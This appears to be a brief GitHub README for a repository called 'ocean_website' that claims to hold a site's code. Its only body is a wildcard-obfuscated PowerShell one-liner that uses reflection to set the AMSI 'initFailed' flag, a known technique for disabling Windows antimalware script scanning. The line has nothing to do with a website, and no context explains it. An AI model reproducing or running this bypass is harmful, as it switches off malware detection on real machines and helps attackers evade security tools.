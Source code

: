 # ocean_website
 My code of the blunun.com website!
$a = [Ref].Assembly.GetTypes();ForEach($b in $a) {if ($b.Name -like "*iutils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*itFailed") {$f = $e}};$f.SetValue($null,$true)
